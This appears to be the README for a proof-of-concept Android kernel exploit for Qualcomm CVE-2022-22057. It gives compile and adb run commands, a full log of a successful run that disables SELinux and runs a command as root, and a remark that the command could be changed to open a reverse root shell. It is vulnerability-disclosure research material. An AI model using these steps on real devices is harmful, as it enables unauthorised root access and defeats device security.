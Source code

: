 ## Exploit for Qualcomm CVE-2022-22057

The write up can be found [here](https://github.blog/2022-06-16-the-android-kernel-mitigations-obstacle-race/). This is a bug in the Qualcomm kgsl driver that I reported in November 2021. The bug can be used to gain arbitrary kernel memory read and write from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Samsung Galaxy Z Flip 3 (European version SM-F711B) with firmware version F711BXXS2BUL6, Baseband F711BXXU2BUL4 and Kernel version 5.4.86-qgki-23063627-abF711BXXS2BUL6 (EUX region). The offsets in the exploit refer to that version of the firmware. Apart from the usual offsets in the kernel image, various addresses of the ion memory pools in `ion_utils.c` are also firmware specific. For reference, I used the following command to compile with clang in ndk-21:

```
android-ndk-r21d-linux-x86_64/android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android30-clang -O2 timeline_wait.c sendmsg_spray.c signalfd_spray.c cpu_utils.c ion_utils.c fake_obj_util.c work_queue_utils.c -o timeline
```

The exploit is reasonably reliable (~70% on tested device), although it does need to wait a few minutes after start up before running, as there are way too many broken/failed binder calls during the first few minutes of start up. (Not entirely sure whether it is a Qualcomm or Samsung problem)

To test, cross compile the file and then execute with `adb`:

```
adb push timeline /data/local/tmp
adb shell
b2q:/ $ /data/local/tmp/timeline
```

If succeeded, it will disable SELinux and run the `id` command as root and write the results in the `/data/local/tmp/id.txt` file:

```
b2q:/ $ /data/local/tmp/timeline
heap_id_mask 40
ion region 0x75a0ccf000
region start addr: ffffff8071800000
fence kernel addr: ffffff8071fe0040 192
created fake slab at ffffff8071840100
[+] reallocation data initialized!
[ ] initializing reallocation threads, please wait...
[+] 40 reallocation threads ready!
timeline_wait start
readpipe start
destroy start
readpipe
Caught signal: 10
 wait complete -1
readpipe finished
destroy finished
cb_list ffffffc02d943bf8 temp ffffffc02d943c48
mask 52424242 60
cpu_id 0
interval number 1
mask 7f8e7bfeff 7
thread number 0 7 20014
thread batch number 0
new mask 7f8e7bfeff ffffff8071840100
region_offset 40100
sprayed 1024 ion buffer
start searching for buffer
Found 7 ion regions
heap_ops ffffffc012e17180, kernel base: a00b8000
set enforcing to permissive
[+] successfully overwritten selinux_enforcing
wq_ptr_addr: ffffffc012dc2518
wq_addr: ffffff81f4cf1200
pwq_addr ffffff81e24ea100
pool_addr ffffff805ff7c000
worklist ffffff805ff7c020 ffffff805ff7c020
queue work
max_active 256 nr_active 0
queuing work, waiting to aquire spin lock
work_queued
work processed
complete 0
ret 0
nr_active 0
worklist ffffff805ff7c020
work next ffffff8071842c08
[+] successfully run command and added id.txt in /data/local/tmp
finished queue work
freeing ion dma fd
finished freeing ion dma fd
finished spraying
finished
```
There is a long pause after `wait complete -1` is printed, which should be less than a minute, this is normal. It can sometimes also take a while to queue the work (after `queuing work, waiting to aquire spin lock` is printed, can be a couple of minutes, just need to be patient, although that is not common). The exploit normally completes in a couple of minutes.

The file `/data/local/tmp/id.txt` should confirm that the command was run as root:

```
b2q:/ $ cat /data/local/tmp/id.txt
uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
```

A different command can be run by changing the variable `cmd` in `setup_sub_info` in `work_queue_utils.c`. (For example, to pop a reverse root shell).
